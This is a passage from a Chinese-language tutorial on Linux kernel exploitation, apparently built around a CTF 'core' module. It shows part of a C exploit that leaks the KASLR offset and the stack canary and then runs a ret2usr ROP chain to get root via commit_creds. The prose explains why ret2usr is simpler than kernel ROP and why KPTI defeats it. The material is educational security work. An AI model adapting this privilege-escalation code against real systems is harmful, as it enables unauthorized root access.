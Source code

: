 ```c
    printf(
        SUCCESS_MSG("[+] Got kernel base: ") "%lx"
        SUCCESS_MSG(" , kaslr offset: ") "%lx\n",
        kernel_base,
        kernel_offset
    );

    /* reading canary value */

    log_info("[*] Reading value of kernel stack canary...");

    set_off_val(fd, 64);
    core_read(fd, buf);
    canary = ((size_t*) buf)[0];

    printf(SUCCESS_MSG("[+] Got kernel stack canary: ") "%lx\n", canary);

    /* building ROP chain */

    rop_chain[8] = canary;
    rop_chain[10] = (size_t) ret2usr_attack;

    /* exploitation */

    log_info("[*] Start to execute ROP chain in kernel space...");

    write(fd, rop_chain, 0x800);
    core_copy(fd, 0xffffffffffff0000 | (0x100));
}

int main(int argc, char ** argv)
{
    exploitation();
    return 0;   /* never arrive here... */
}
```

这里我们可以注意到，与前面常规 kernel rop 做法不同的主要是 rop 链的构造：

- 常规的 kernel rop 通过在内核空间构造复杂的 ROP 链条控制内核执行流完成提权，之后继续通过 ROP chain 调用内核空间中已有的 `swapgs; iretq` 指令返回到用户态，执行用户空间的 `system("/bin/sh")` 获取 shell， **这种方式需要手工构造复杂 ROP chain ，并非常依赖于内核中可用 ROP gadget 的存在性** 。
- ret2usr 做法中，我们直接返回到用户空间的指定函数，在其中通过函数指针的方式调用内核空间的 `commit_creds(prepare_kernel_cred(NULL))` 进行提权，完成之后通过我们手工构造的裸汇编代码完成 `swapgs; iretq` 返回用户态的过程，在这种情况下 **我们只需要劫持内核执行流，而无需在内核空间构造复杂的 ROP 链条** 。

从这两种做法的比较可以体会出之所以要 `ret2usr`，是因为一般情况下在用户空间构造特定目的的代码要比在内核空间简单得多。

## KPTI 与 ret2usr

对于开启了 KPTI 的内核而言，内核页表的用户地址空间无执行权限，因此当内核尝试执行用户空间代码时，由于对应页顶级表项没有设置可执行位，因此会直接 panic，这意味着**实际上 ret2usr 已经是过去式了**。
